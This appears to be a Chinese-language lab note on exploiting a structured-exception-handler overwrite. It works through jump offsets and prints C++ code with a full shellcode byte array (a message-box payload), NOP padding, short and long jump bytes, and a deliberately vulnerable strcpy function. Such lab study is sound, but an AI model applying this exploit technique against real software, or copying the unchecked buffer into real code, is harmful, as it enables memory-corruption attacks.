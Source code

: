 跳板指令地址：0x00280B0B

这里因为有\x00作为截断，所以不能将shellcode布置到该地址后面。书中介绍了一个跳转的方法，可是调试以后发现这个方法也是建立在一个巧合之上的：ebp+0x30 处存放的是 next SEH struct，即SEH handle的上面四个字节。

使用两个字节的短跳转指令（EB 一个字节偏移）跳转到5个字节的长跳转指令处（E9 四个字节偏移），栈中的布置：  

```
E9 (四个字节的偏移到shellcode开始处) 90 90(这里一共八个字节)
EB F6 90 90(跳转到上一句)
```

SEH handle addr：0x0012FF64

存放长长地址跳转的地址：0x0012FF60

参数起始地址：0x0012FE88

所以整个shellcode：

(168 bytes shellcode)+(40 bytes nop)+(8 bytes "\xE9\x2B\xFF\xFF\xFF\x90\x90\x90")+(4 bytes "\xB\xF6\x90\x90")+跳板指令

最后到的代码：
```C++
#include<string>
#include<cstdio>
#include<windows.h>
#include<tchar.h>
char shellcode[]=                   
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"      
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"      
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"      
"\xEB\xF6\x90\x90"                      
"\x0B\x0B\x28\x00"                    
;
;
DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
void test(char * input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}
```